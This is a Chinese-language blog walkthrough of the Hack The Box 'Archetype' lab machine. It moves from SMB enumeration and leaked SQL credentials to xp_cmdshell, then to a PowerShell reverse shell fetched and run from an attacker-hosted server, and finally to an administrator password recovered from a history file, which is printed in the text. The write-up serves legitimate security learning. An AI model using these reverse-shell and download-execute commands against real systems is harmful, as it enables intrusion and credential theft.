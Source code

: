 ```yaml
---
title: HTB-Archetype靶机思路 
tags: HTB,靶机,思路
renderNumberedHeading: true
grammar_cjkRuby: true
---
```



## 前言

>这个是之前打过的靶机，之前也记录了一下，现在把它放在博客里，方便自己查看
>其实按照他里面的步骤一步一步来就可以了，但是中间踩了好多坑，心累，所以记录一下

## 环境准备

>操作机：Kali Linux

>首先要在 Kali 上安装 openvpn
>```
>apt-get install network-manager-openvpn
>apt-get install network-manager-openvpn-gnome
>apt-get install network-manager-pptp
>apt-get install network-manager-pptp-gnome
>apt-get install network-manager-strongswan
>apt-get install network-manager-vpnc
>apt-get install network-manager-vpnc-gnome
>```

安装openvpn之后，我们来下载.ovpn文件

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600845167236.png)

使用opnvpn来访问这个文件，连上环境IP

`sudo openvpn MrHat-startingpoint.ovpn`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600845353335.png)

然后试着 ping 一下目标IP `10.10.10.27`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600846212044.png)

## 信息收集

环境配置好之后，目标IP也知道了，进行简单的信息收集

首先端口扫描，看看是否开放可疑端口
`sudo nmap -sC -sV 10.10.10.27`

> -sC 根据端口识别的服务,调用默认脚本
> 
> -sV 开放版本探测,可以直接使用-A同时打开操作系统探测和版本探测 

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600846553562.png)

开放端口：
- 135  msrpc        Microsoft Windows RPC 
- 139  netbios-ssn  Microsoft Windows netbios-ssn 
- 445  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds 
- 1433 ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM

## 漏洞利用

>445 文件共享（SMB）
>1433  SQL Server相关联

先看一下445端口的SMB是否允许匿名访问
`smbclient -N -L \\\\10.10.10.27\\`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847031208.png)

`backups` 目录 一般来说是备份目录
连接一下 `backups` 目录，然后 `dir` 查看一下目录下的文件
`smbclient -N -L \\\\10.10.10.27\\backups`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847147868.png)

可以看到里面有一个 `prod.dtsConfig` 文件，我们下载一下
`get prod.dtsConfig`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847259590.png)

查看一下里面的内容

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847308001.png)

它包含一个 `SQL 连接字符串` 和本地 Windows 用户 `ARCHETYPE\sql_svc`

接下来我们使用 `Impacket` 下的 `mssqlclient.py` 来连接一下这个 Sql Server

>Github下载链接：https://github.com/SecureAuthCorp/impacket

下载完成，解压出来，然后安装依赖 执行 `pip install .`  注意有个点

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847431335.png)

然后找到 examples 目录下的 `mssqlclient.py`

执行命令
`python mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847571370.png)
**`注意这个斜杠 文档复制出来的是 “\” 这个，但是不行 必须要 “/”这个斜杠才可以`**

成功连接 Sql Server，然后执行 sql 语句

先使用 `IS_SRVROLEMEMBER` 函数来查看当前 SQL 用户的权限是否为 sysadmin 最高权限

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847804543.png)

返回1那就说明是 sysadmin 权限

接下来我们开启 `xp_cmdshell` 来执行系统命令
```sql?linenums
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
```
开启成功

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600848048509.png)

接下来执行一下系统命令 查看一下权限
`xp_cmdshell "whoami"`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600848113617.png)

## 权限提升

利用 powershell 反弹shell

新建一个 `shell.ps1` 文件
```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
注意修改一下 `ip`，`端口`

接下来我们使用 python3 来托管文件
`sudo python3 -m http.server 80`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600848857109.png)

使用 `nc` 来监听刚刚设置的端口，我设置的是 443
`sudo nc -lvnp 443`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600848941236.png)

然后执行系统命令来访问下载并执行文件
`xp_cmdshell "powershell "IEX (New-ObjectNet.WebClient).DownloadString(\"http://10.10.14.29/shell.ps1\");"`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849065273.png)

看 nc 这边的反应

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849164777.png)
反弹成功！

查看一下文件
`type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849401803.png)

>文件内容:
>net.exe use T: rchetypeVbackups /user:administrator MEGACORP_4dmin!!

发现是 `administrator` 账户密码

我们通过 `Impacket/examples/psexec.py` 连接一下这个 administrator 账户

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849493455.png)

## 获取Flag

Flag 在桌面

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849547580.png)







